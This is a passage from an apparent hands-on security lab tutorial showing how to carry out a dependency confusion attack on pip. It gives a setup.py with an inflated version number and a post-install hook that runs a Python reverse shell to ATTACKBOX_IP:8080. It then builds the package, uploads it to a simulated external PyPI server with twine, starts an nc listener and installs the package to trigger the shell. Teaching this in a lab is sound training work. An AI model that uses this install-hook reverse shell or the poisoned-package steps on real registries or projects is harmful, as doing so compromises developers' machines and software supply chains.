 Let's take a look at the adjustments that we made. Firstly, we imported the install library from setuptools and the os library:
```py
from setuptools.command.install import install
import os
import sys
```
We also updated the version of our package to ensure that we win the dependency confusion race:
```py
VERSION = 'v9000.0.2'
```

Next, we introduced a new function that will work as a post-installation hook to run a reverse shell for us. Remember to add your AttackBox or VPN IP:
```py
class PostInstallCommand(install):
    def run(self):
        install.run(self)
        print ("Hello World from installer, this proves our injection works")
        os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKBOX_IP",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')
```
Lastly, we hook the post-installation process in our setup configuration:
```py
cmdclass={
        'install': PostInstallCommand
    },
```
Now that we have created the package, it is time to build it and upload it to the external PyPI repo. We can use the following command to build our package:

```bash
python3 setup.py sdist
```

Once built, our Pip package will be available under the dist folder and can be uploaded to the Pypi repo using twine:
```bash
twine upload dist/datadbconnect-9000.0.2.tar.gz --repository-url http://external.pypi-server.loc:8080
```

If you are asked for credentials, just leave them empty. You can also safely ignore the error and warning messages as long as the final output shows the package upload reaching 100%. Just a reminder again that we are simulating an external PyPI repo to not break their terms of service. If this were a real attack, the package would be uploaded to PyPI's main repo. Let's start a listener for our shell:
```bash
nc -lvp 8080
```
We can test the code execution of our package by installing it directly ourselves:
```bash
pip3 install datadbconnect --trusted-host external.pypi-server.loc --index-url http://external.pypi-server.loc:8080 --verbose
```
You should see the print line in the output of the installation command and see that pip freezes when you get a reverse shell connection:
AttackBox Terminal
